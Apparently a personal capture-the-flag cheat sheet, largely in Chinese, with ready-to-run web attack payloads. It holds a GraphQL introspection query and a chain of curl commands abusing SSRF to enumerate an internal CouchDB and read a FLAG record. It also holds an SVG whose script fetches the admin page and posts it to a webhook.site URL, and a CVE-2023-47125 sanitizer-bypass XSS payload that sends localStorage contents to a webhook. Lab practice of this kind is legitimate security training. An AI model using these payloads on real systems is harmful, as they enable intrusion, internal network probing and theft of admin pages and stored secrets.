 GraphQL 查询所有字段

{
"query": "query IntrospectionQuery { __schema { types { name kind description fields { name description args { name description type { name kind ofType { name kind } } } type { name kind ofType { name kind } } } } } }"
}

SSRF利用

#目标端口扫描 couchdb
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/#\\",\\"sector\\":\\"whale_get_4369\\"}"](http://127.0.0.1:5984/#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_4369%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'

#couchdb路径 dbs

curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/_all_dbs#\\",\\"sector\\":\\"whale_get_5984_all_dbs\\"}"](http://127.0.0.1:5984/_all_dbs#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_all_dbs%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'

curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart#\\",\\"sector\\":\\"whale_get_5984_citismart\\"}"](http://127.0.0.1:5984/citismart#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart/_all_docs#\\",\\"sector\\":\\"whale_get_5984_citismart_all_docs\\"}"](http://127.0.0.1:5984/citismart/_all_docs#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart_all_docs%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart/FLAG#\\",\\"sector\\":\\"whale_get_5984_citismart_FLAG\\"}"](http://127.0.0.1:5984/citismart/FLAG#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart_FLAG%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale' | grep FLAG


上传svg 再构造query让管理员访问，将管理员页面内容反弹回webhook
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400">
  <script type="text/javascript">
    // Fetch the admin dashboard and exfiltrate via webhook
    fetch('/admin')
      .then(res => res.text())
      .then(html =>
        fetch('https://webhook.site/ac03410c-e005-4aa4-85c8-b0eeadab1367', {
          method: 'POST',
          body: btoa(html)
        })
      );
  </script>
</svg>



DOM存储型XSS
PHP组件：
 "typo3/html-sanitizer": "2.1.3"
 CVE-2023-47125
DOM 处理指令未得到正确处理。这允许绕过 的跨站点脚本机制typo3/html-sanitizer
<?xml s><img src="x" onerror="fetch('https://webhook.site/6dbbdd70-feef-4c04-a328-f5a96a14350c?x='+localStorage.getItem('flag'))">?>
<?xml s><img src="x" onerror="alert('testtesttest')">?>

